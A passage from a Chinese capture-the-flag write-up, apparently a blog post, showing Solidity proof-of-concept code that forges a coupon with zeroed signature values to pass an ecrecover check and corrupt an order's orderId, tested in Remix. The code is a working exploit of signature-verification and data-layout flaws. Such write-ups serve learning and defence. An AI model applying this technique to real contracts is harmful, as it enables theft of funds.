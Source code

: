 ```solidity
            "I, the issuer", coupon.issuer,
            "offer a special discount for", coupon.user,
            "to buy", order, "at", coupon.newprice,
            "because", coupon.reason
        );
        recovered = ecrecover(keccak256(serialized), sig.v, sig.rs[0], sig.rs[1]);
        issuer = coupon.issuer; 

    }
}

contract caller{
    Verifier public verifier;
    Coupon public cp;
    constructor(address v){
        verifier = Verifier(v);
    }
    function purchaseWithCoupon(SignedCoupon calldata scoupon) public {
        Coupon memory coupon = scoupon.coupon;
        require(coupon.user == msg.sender, "Invalid user");
        require(coupon.newprice > 0, "Invalid price");
        verifier.verifyCoupon(scoupon);
        cp = coupon;
        
    }
    function test() public{
        Coupon memory c;
        c.orderId = 0xdeadbeef;
        c.newprice = 1;
        c.issuer = address(0x123456);
        c.user = address(this);
        c.reason = 'lalalalalaallalalalaalallalalalalalalalaalaalalala';
        SignedCoupon memory scoupon;
        scoupon.coupon = c;

        Signature memory sig;
        sig.v = 17;
        sig.rs[1] = bytes32(0);
        sig.rs[0] = bytes32(0);

        scoupon.signature = sig;
        caller(this).purchaseWithCoupon(scoupon);
    }
}
```

直接调用test，在remix上测试结果如下：



![image-20220919130423963](https://s3cunDa.github.io/assets/post/nft.png)

可以看到，orderId确实是被改成0了。

终究是棋差一招，如果当时测试的时候看一下order结构就好了。。。

不得不说，触及了认知的盲区，虽然没做出来，但是确实学到了。
